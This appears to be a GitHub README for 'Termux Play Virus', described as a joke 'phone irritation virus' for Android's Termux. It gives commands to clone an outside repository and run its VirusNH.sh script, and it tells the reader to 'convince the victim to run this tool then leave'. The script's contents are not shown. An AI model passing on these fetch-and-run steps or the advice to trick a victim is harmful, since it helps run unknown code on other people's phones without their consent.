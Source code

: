 <p align="center">
  <img height="200" wight="200" src="satanvirus.jpg" alt="logo">  
</p>

<h1 align="center">Termux Play Virus</h1>
<p align="center">
  Phone irritation virus: This virus was designed for the purpose of joking only. Do not use it to harm others, use it to please god
</p>

# Commands 👨‍💻
### You have to convince the victim to run this tool then leave and enjoy 🦠
```
$ apt-get update -y
```
```
$ apt-get upgrade -y
```
```
$ pkg install git -y
```
```
$ pkg install bash -y
```
```
$ git clone https://github.com/NH404/Satanic-Virus
```
```
$ cd Satanic-Virus
```
```
$ bash VirusNH.sh
```
